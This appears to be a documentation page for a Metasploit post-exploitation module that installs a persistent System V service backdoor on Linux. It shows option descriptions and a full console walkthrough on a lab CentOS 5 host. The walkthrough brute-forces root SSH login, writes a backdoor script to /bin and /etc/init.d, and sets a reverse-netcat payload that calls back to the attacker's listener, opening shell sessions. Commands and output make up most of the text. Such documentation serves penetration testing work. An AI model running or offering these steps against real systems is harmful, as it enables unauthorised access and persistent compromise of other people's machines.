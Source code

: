 **SERVICE**

  The name of the service to create.  If not chosen, a 7 character random one is created.

**SHELL_NAME**

  The name of the file to write with our shell.  If not chosen, a 5 character random one is created.

## Scenarios

### System V (Centos 5 - root - chkconfig)

Get initial access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set rhosts 192.168.199.131
    rhosts => 192.168.199.131
    msf auxiliary(ssh_login) > set username root
    username => root
    msf auxiliary(ssh_login) > set password centos
    password => centos
    msf auxiliary(ssh_login) > exploit
    
    [*] 192.168.199.131:22 SSH - Starting bruteforce
    [+] 192.168.199.131:22 SSH - Success: 'root:centos' 'uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=root:system_r:unconfined_t:SystemLow-SystemHigh Linux localhost.localdomain 2.6.18-398.el5 #1 SMP Tue Sep 16 20:51:48 EDT 2014 i686 i686 i386 GNU/Linux '
    [*] Command shell session 1 opened (192.168.199.128:49359 -> 192.168.199.131:22) at 2016-06-22 14:27:38 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Install our callback service (system_v w/ chkconfig).  Note we change SHELLPATH since /usr/local/bin isnt in the path for CentOS 5 services.

    msf auxiliary(ssh_login) > use exploit/linux/local/service_persistence
    msf exploit(service_persistence) > set session 1
    session => 1
    msf exploit(service_persistence) > set verbose true
    verbose => true
    msf exploit(service_persistence) > set SHELLPATH /bin
    SHELLPATH => /bin
    msf exploit(service_persistence) > set payload cmd/unix/reverse_netcat
    payload => cmd/unix/reverse_netcat
    msf exploit(service_persistence) > set lhost 192.168.199.128
    lhost => 192.168.199.128
    msf exploit(service_persistence) > exploit
    
    [*] Started reverse handler on 192.168.199.128:4444 
    [*] Writing backdoor to /bin/GUIJc
    [*] Max line length is 65537
    [*] Writing 95 bytes in 1 chunks of 329 bytes (octal-encoded), using printf
    [*] Utilizing System_V
    [*] Utilizing chkconfig
    [*] Writing service: /etc/init.d/HqdezBF
    [*] Max line length is 65537
    [*] Writing 1825 bytes in 1 chunks of 6409 bytes (octal-encoded), using printf
    [*] Enabling & starting our service
    [*] Command shell session 2 opened (192.168.199.128:4444 -> 192.168.199.131:56182) at 2016-06-22 14:27:50 -0400
